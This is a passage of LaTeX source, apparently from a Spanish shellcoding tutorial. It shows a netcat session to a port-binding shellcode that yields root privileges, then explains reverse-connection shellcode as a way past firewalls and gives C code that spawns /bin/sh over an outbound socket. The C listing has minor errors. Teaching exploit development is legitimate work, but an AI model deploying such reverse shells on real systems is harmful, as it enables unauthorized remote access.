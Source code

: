 \documentclass [titlepage, 12pt]{article}
\newcommand{\topfigrule}{\hrule\vspace{4 pt}}
\newcommand{\botfigrule}{\hrule\vspace{4 pt}}
\begin{document}
\begin{listing}[style=consola, numbers=none, caption=Conexi\'on al $shellcode$ de vinculaci\'on a un puerto en ensamblador, label=fig:ConnectingToPortBindingASM]	
		newlog@Beleriand:~$ id
		uid=1000(newlog) gid=1000(newlog),grupos=4(adm),20(dialout),
		24(cdrom),46(plugdev),104(lpadmin),115(admin),120(sambashare),1000(newlog)
		newlog@Beleriand:~$ nc -vv 127.0.0.1 31337
		Connection to 127.0.0.1 31337 port [tcp/] succeeded!
		id
		uid=1000(newlog) gid=1000(newlog) euid=0(root),groups=4(adm),20(dialout),
		24(cdrom),46(plugdev),104(lpadmin),115(admin),120(sambashare),1000(newlog)
		pwd
		/home/newlog/Documentos/Shellcoding/Codigos/PortBinding/ASMSource
		exit
\end{listing}

\pagebreak
\subsubsection{Reverse connection shellcode}

El desarrollo de este tipo de $shellcodes$ parte de la necesidad de saltarnos las restricciones que implementa un cortafuegos.\\
Normalmente, la mayor\'ia de cortafuegos filtran el tr\'afico entrante de un ordenador o una red de ordenadores. Sin embargo, el tr\'afico saliente no acostumbra  a estar bloqueado ya que en la mayor\'ia de casos ocasionar\'ia m\'as problemas de los que solucionar\'ia.\\
As\'i pues, el $reverse$ $connection$ $shellcode$, $shellcode$ de conexi\'on inversa, a diferencia del $shellcode$ de vinculaci\'on a un puerto, se encarga de realizar una conexi\'on saliente del ordenador vulnerado hacia una m\'aquina especificada en el mismo $shellcode$.\\
En $C$, el $shellcode$ de conexi\'on inversa se puede implementar como en el C\'odigo \ref{fig:reverseC}. \\

\lstset{language=C++,caption=$Shellcode$ de conexi\'on inversa en C,label=fig:reverseC}
\begin{lstlisting}	
		#include <sys/socket.h>
		#include <netinet/in.h>
		int main () {
					char * shell[2];
					int soc, rc;
					struct sockaddr_in serv_addr;
		
					serv_addr.sin_family = 2;
					serv_addr.sin_addr.s_addr = inet_addr("127.0.0.1");
					serv_addr.sin_port = htons("12345");
		
					soc = socket(2, 1, 0);
					rc = connect(soc, (struct sockaddr *) &serv_addr, 0x10);
					dup2(soc, 0); dup2(soc, 1); dup2(soc, 2);

					shell[0] = "/bin/sh";
					shell[1] = 0;					
		 			execve(shell[0], shell, 0);
		}
\end{lstlisting}
\end{document}
